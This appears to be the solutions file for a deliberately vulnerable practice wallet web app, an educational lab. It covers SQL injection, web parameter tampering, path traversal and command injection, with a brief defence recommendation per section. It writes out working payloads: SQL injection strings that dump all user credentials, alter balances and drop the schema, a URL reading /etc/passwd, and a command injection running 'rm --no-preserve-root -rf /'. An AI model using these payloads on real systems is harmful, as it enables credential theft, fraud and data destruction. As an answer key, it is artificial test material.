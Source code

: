 # SQL Injection 

**Challenge 1:** Identify fields vulnerable to SQL injection.  
**Solution:**  
* Sign up page – Username, password, email fields.  
* Sign in page -  Username, password fields.
* Transactions page – Comments.

**Challenge 2:** DBMS (postgresql, oracle etc) used by the app.  
**Solution:**  Refer screen recording in README.  
 
**Challenge 3:** Schema used for the app.  
**Solution:**  Refer screen recording in README. Refer the table below for the query string.  

**Challenge 4:** Tables in the app.  
**Solution:**  Refer screen recording in README. Refer the table below for the query string.  

**Challenge 5:** Username and password of all users.  
**Solution:**  Refer screen recording in README. Refer the table below for the query string.  

**Challenge 6:** Recharge your wallet with Rs. 100000 without using the wallet page.  
**Solution:**  Refer screen recording in README. Refer the table below for the query string.  

**Challenge 7:** Make the wallet balance of all users 0.  
**Solution:**  Refer screen recording in README. Refer the table below for the query string.  

**Challenge 8:** Delete all your transactions.  
**Solution:**  Refer screen recording in README. Refer the table below for the query string.  

**Challenge 9:** Drop all the tables.  
**Solution:**  Refer screen recording in README. Refer the table below for the query string.  

| Task no. | Page name        | Field name           | Value                                                                                                                    |
|----------|------------------|----------------------|--------------------------------------------------------------------------------------------------------------------------|
| 3        | Sign up page     | username             | user0', (SELECT GROUP_CONCAT(distinct(table_schema), ' ') FROM INFORMATION_SCHEMA.tables), 'pass') --                    |
| 4        | Sign up page     | username             | user1', (select GROUP_CONCAT(table_name, ' ') from information_schema.tables where table_schema = 'wallet'), 'pass') --  |
| 5        | Transaction page | Transaction comments | test' \|\| (SELECT GROUP_CONCAT(username, ' : ' , password) FROM user)) --                                               |
| 6        | Transaction page | Transaction comments | test'); update wallet set cash = 100000 where uid = (select id from user where username = 'Steve'); --                   |
| 7        | Transaction page | Transaction comments | test'); update wallet set cash = 0; --                                                                                   |
| 8        | Transaction page | Transaction comments | test'); delete from transactions where user = (select id from user where username = 'Steve'); --                         |
| 9        | Transaction page | Transaction comments | test'); drop schema wallet; --                                                                                           |

**Recommendation to protect against this vulnerability** - Parameterized queries.


# Web parameter tampering  

**Challenge 1:** Execute a transaction for an amount that is greater than your wallet balance.  
**Solution:** Refer screen recording in README.  

**Challenge 2:** Delete a card that does not belong to the current logged in user.   
**Solution:** Refer screen recording in README.  

**Recommendation to protect against this vulnerability** - Implement validations in the backend.  

# Path traversal 

**Challenge 1:** Gain access to 'etc/passwd' file in the server.  
**Solution:** Refer screen recording in README.  
````````````````
http://localhost:8082/wallet/LoadImage?filename=../../../../../../etc/passwd
````````````````
**Recommendation to protect against this vulnerability** - Do not use file system APIs to load static page resources. Use ‘chroot’ to restrict file access.  

# Command Injection 

**Challenge 1:** Execute a Linux command to list files in root directory.  
**Solution:** Refer screen recording in README.  
````````````
http://localhost:8082/wallet/transAnalyze?periodicity=monthly%20;%20cd%20/%20;%20ls
````````````

**Challenge 2:** Delete the entire server file system using command injection.  
**Solution:** Refer screen recording in README.  
````````````````
http://localhost:8082/wallet/transAnalyze?periodicity=monthly%20;%20rm%20--no-preserve-root%20-rf%20/
````````````````

**Recommendation to protect against this vulnerability** - Scrub all input for malicious characters using a whitelist of allowed characters.

